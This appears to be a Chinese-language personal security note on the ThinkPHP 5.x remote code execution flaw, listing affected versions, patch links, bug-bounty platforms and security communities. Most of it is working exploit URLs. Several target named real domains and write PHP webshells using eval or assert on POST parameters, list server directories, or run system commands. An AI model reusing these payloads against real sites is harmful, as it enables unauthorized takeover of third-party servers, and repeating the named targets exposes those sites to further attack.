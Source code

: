 ### 唐人街发现漏洞
    域名/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=zxc1.php&vars[1][]=<?php @eval($_POST[fuck]);?>'
    
    api.91tangrenjie.com/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=fff.php&vars[1][1]=<?php print_R(scandir('/www/wwwroot/api.91tangrenjie.com/application/admin'))?>
    
    api.91tangrenjie.com/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shix1.php&vars[1][1]=<?php assert($_POST['fuck'])?>

### 米多发现
    api.6d2g.cn/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=tt.php&vars[1][]=<?php @eval($_POST[111]);?>
    
    ?s=index/\think\Request/input&filter=phpinfo&data=1
    ?s=index/\think\Request/input&filter=system&data=id
    ?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=
    ?s=index/\think\view\driver\Php/display&content=
    ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
    ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
    ?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
    ?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0

    http://dkfh.h8mtqt.cn/api/invoke/args?function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=notify.php&vars[1][]=<?php @eval($_POST[1111]);?>

    http://jogt.h8mtqt.cn/admin/auth/admin/invokesync?dialog=fast&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=notify.php&vars[1][]=<?php @eval($_POST[1111]);?>
    
    ReflectionFunction
       /**
     * 加载参数
     */
    public function args($function, $vars = [])
    {
        $reflect = new \ReflectionFunction($function);
        $args    = \think\App::bindParams($reflect, $vars);
        return $reflect->invokeArgs($args);
    }

### tp受影响版本 5.x < 5.1.31, <= 5.0.23

    Thinkphp v5.0.x补丁地址: https://github.com/top-think/framework/commit/b797d72352e6b4eb0e11b6bc2a2ef25907b7756f
    
    Thinkphp v5.1.x补丁地址: https://github.com/top-think/framework/commit/802f284bec821a608e7543d91126abc5901b2815

### 漏洞提交 

- 宜信安全应急响应中心 
- https://security.creditease.cn/  提交漏洞 
- https://www.anquanke.com/src
- https://butian.360.cn

### 安全类社区 

- 先知社区 seebug
- 安全客 freebuf
- tuisec 
- i春秋社区  
- 大佬的 twitter + blog
- 
- CTF平台  
- capture the flag  抢夺旗帜  获取旗帜


